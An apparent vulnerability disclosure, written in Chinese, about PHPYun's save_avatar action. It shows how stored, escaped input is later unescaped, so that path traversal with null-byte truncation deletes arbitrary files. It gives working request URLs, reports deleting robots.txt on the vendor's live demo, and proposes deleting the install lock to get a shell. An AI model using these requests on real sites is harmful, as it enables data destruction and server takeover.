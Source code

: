 $this->obj->update_once("friend_info",array("pic_big"=>"../".$new_avatar_path),array("uid"=>$this->uid)) 但是这里有一个入库。

入库了 然后再把 $this->obj->unlink_pic($row['pic_big']);//删除图片

出库出来的删掉。 所以我们可以再次截断了。 所以这个截断也无视 GPC 啥的。

用 phpyun 的 demo **.**.**.**测试 首先注册一个会员 然后请求

www.**.**.**.**//friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../robots.txt%00

![](img/2413062306c85e7c6bb6efe92abebb96d16538a2.jpg)

这样先转义入库了。 然后就按照这样再请求一次。

www.**.**.**.**//friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../robots.txt%00

再请求一次 出库, 然后就又能截断 成功删除了 robots.txt

测试的时候把 demo 的 robots.txt 删掉了 [`www.**.**.**.**/robots.txt`](http://www.**.**.**.**/robots.txt) 已经 404 了。

你们自己添加上去一下把。

进一步的利用的话 我们可以先删除 lock 然后重装进行 getshell

/friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../data/phpyun.lock%00

这个需要请求两次。

![](img/2412310068e8f87386bb063be149663c66e775c1.jpg)
